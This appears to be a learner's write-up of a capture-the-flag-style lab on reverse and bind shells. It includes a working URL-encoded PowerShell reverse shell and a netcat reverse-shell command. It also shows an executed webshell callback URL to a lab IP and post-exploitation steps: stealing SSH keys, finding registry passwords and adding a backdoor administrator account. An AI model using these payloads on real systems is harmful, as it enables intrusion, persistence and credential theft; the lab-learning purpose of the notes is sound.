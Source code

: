 Most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows it may be best to obtain remote code execution through a webshell, or by using msfvenom to generate a reverse/bind shell in the language of the server. An encoded powershell reverse shell can be used as the cmd argument on Windows targets.

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
This is the same shell as the powershell shell found in "Common Shell Payloads". It has been URL encoded so that it can be used safely in a get parameter.

## Next Steps

In this task we have discussed lots of ways to generate, send and receive shells. Usually they tend to be unstable and non-interactive.

On a Linux machine we would like to find an opportunity to gain access to a user account. SSH keys are stored at `/home/<user>/.ssh` and are a good way to do this. Additional enumeration may allow you to find credentials somewhere else on the box.


On Windows the options are usually more limited. Passwords for running services can sometimes be found in the registry - VNC servers feequesntly leave passwords here in plaintext. Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in with your preferred method. `net user <username> <password> /add` then `net localgroup administrators <username> /add`

---
Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

## Practice and Examples

    1. Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

Uploaded `webshell.php` used the url to enter the netcat callback command ` http://http://10.10.163.76//uploads/webshell.php?cmd=nc%2010.9.5.6%204444%20-e%20%2fbin%2fbash`

    2. Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.
